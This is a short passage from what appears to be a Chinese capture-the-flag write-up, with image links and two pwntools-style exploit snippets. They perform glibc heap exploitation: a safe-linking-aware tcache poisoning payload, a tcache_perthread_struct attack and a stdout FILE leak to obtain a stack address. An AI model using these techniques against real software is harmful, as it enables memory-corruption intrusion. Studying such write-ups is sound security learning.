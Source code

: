 [![](assets/1701606615-a38980f9995fbe182f3e8f1f0567849d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213752-2cd5648c-83bc-1.png)

```plain
pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
```

[![](assets/1701606615-7aee00f295608fd0b50be38c010b291a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213803-3321e43c-83bc-1.png)  
然后利用attack tcache\_struct和IO\_leak泄露栈地址

```plain
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)
```
